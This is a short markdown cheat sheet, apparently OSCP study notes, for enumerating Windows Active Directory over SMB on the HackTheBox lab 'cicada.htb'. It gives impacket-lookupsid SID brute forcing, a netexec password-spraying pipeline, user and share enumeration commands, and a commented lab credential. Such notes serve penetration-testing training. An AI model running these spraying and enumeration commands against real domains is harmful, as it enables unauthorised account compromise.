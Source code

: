 Also check out:

https://github.com/nestef23/my-OSCP-notes/blob/main/Reconnaissance/SMB%20-%20445.md

## lookupsid
lookupsid.py
### Enumerate users
https://github.com/fortra/impacket/blob/master/examples/lookupsid.py

This tool will try brute forcing Windows Security Identifiers (SIDs) of any users in the AD domain.

To enumerate the domain, we can specify the `guest` user, the domain name, and `-no-pass` for no password. 
```
# No pass
impacket-lookupsid 'cicada.htb/guest'@cicada.htb -no-pass
impacket-lookupsid support@cicada.htb -no-pass

# Known pass
impacket-lookupsid user.name@cicada.htb
```

## netexec
### basic info
Get the hostname and domain name
```
netexec smb <IP>
```
### Password spraying
In this scenario we want to perform password spraying with a known password.
1. Gett all usernames
2. Try the password against all of them
```
impacket-lookupsid support@cicada.htb -no-pass | grep 'SidTypeUser' | sed 's/.*\\\(.*\) (SidTypeUser)/\1/' > users.txt

cat users.txt

netexec smb cicada.htb -u users.txt -p '<password>'
```
### Enumerate users
Must have user credentials.
This will show "description" field from the AD.
```
# netexec smb cicada.htb -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
netexec smb <domain> -u <user> -p '<password>' --users
```
### Enumerate shares
Must have user credentials.
This will show user permissions to each share
```
netexec smb <domain> -u <user> -p '<password>' --shares
netexec smb <domain> -u Anonymous -p '' --shares
```
